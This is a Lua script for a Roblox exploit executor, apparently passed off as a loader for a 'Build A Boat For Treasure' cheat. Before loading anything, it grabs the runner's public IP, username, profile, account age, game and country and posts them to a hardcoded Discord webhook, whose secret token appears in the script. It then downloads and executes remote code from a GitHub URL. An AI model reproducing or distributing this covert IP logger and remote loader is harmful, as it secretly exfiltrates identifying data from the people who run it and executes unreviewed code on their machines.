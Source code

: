 local hwid = "ไม่ได้ดัก"
local excutorcheck = "ไม่ได้ดัก"
local ip = tostring(game:HttpGet("https://api.ipify.org", true))
local GetName = game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId)
local url = "https://discordapp.com/api/webhooks/869544310381637642/_Kcd3KukxHo1DholkDvyLVncGd5Pigw5uWU36wmJzVpa6HpSn5yXha8DuQBhteLDbpB6"local data = {
   ["content"]= " ",
   ["embeds"]= {
    {
      ["title"]= "มีคนรันสคริป",
      ["color"]= 16761344,
      ["fields"]= {
        {
          ["name"]= "Player Name",
          ["value"]= game.Players.LocalPlayer.Name,
          ["inline"]= true
        },
        {
          ["name"]= "Player Profile",
          ["value"]= "https://www.roblox.com/users/"..game.Players.LocalPlayer.UserId.."/profile",
          ["inline"]= true
        },
        {
          ["name"]= "Account Ages",
          ["value"]= game.Players.LocalPlayer.AccountAge,
          ["inline"]= true
        },
        {
          ["name"]= "Excutor",
          ["value"]= excutorcheck,
          ["inline"]= true
        },
        {
          ["name"]= "Game Name",
          ["value"]= GetName.Name,
          ["inline"]= true
        },
        {
          ["name"]= "Game Link",
          ["value"]= "https://roblox.com/games/"..game.PlaceId.."/",
          ["inline"]= true
        }
      },
      ["footer"]= {
        ["text"]= "IP : "..ip.."   |   HWID : "..hwid.."   |   ".."Country : "..game:GetService("LocalizationService"):GetCountryRegionForPlayerAsync(game.Players.LocalPlayer)
      }
    }
  },
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
   ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)
loadstring(game:HttpGet("https://raw.githubusercontent.com/DevilXD99/-Build-A-Boat-For-Treasure-V.1.8/main/README.md"))()
